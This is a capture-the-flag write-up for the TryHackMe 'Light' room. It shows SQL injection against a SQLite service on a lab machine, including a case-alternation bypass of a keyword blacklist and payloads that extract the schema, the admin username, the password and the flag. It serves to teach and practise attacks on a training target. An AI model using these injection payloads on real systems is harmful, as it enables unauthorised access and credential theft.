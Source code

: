 ```yaml
---
title: Light - TryHackMe
date: 2025-01-19
---
```


<script setup>
    import RoomCard from "../../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Light"
    roomIcon="/ctf/tryhackme/challenges/light/icon-room.png"
    roomLink="https://tryhackme.com/r/room/lightroom"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge Information

> *I am working on a database application called Light! Would you like to try it out? If so, the application is running
on `port 1337`. You can connect to it using `nc 10.10.226.23 1337`. You can use the username `smokey` to get started.*

## Challenge Overview

This challenge presents a database application accessible via a Netcat connection. After connecting to
`nc 10.10.226.23 1337`, we are prompted to enter a username. Using the provided username `smokey`, we successfully
authenticate with the following credentials:

```bash
> nc 10.10.226.23 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

The objective is to extract the `admin` username, its password, and the flag.

## Enumeration

### Initial Observations

Upon logging in, the application accepts SQL-like queries to interact with the database. However, we quickly discover
that key SQL keywords such as `UNION`, `SELECT`, `union`, and `select` are blacklisted, as shown below:

```sql
' UNION SELECT name FROM sqlite_master WHERE type='table
```

```bash
Ahh there is a word in there I don't like :(
```

This limitation requires us to craft payloads with alternate casing or spacing to bypass the blacklist.

### Bypassing the Blacklist

We successfully bypass the blacklist by altering the case or spacing of the blocked keywords:

```sql
' Union Select name FROM sqlite_master WHERE type='table
```

This payload reveals the presence of a table:

```bash
admintable
```

### Extracting Table Schema

Next, we query the `sqlite_master` table to retrieve the SQL definition of the `admintable`:

```sql
' Union Select sql FROM sqlite_master WHERE name='admintable
```

Output:

```sql
CREATE TABLE admintable
(
    id       INTEGER PRIMARY KEY,
    username TEXT,
    password INTEGER -- The password field is incorrectly labeled as an integer but contains string data. For example, the password for the user `smokey` is 'vYQ5ngPpw8AdUmL'.
)
```

### Extracting the Admin Credentials

#### Admin Username

To retrieve the admin username, we use the following payload:

```sql
' Union Select username FROM admintable WHERE username LIKE '%
```

Output:

```bash
TryHackMeAdmin
```

#### Admin Password

To obtain the admin password, we query the `admintable` with a specific condition:

```sql
' Union Select password FROM admintable WHERE username='TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Retrieving the Flag

Finally, we extract the flag using a query that avoids the admin-specific condition:

```sql
' Union Select password FROM admintable WHERE username != 'TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Reference

- [The Schema Table](https://www.sqlite.org/schematab.html)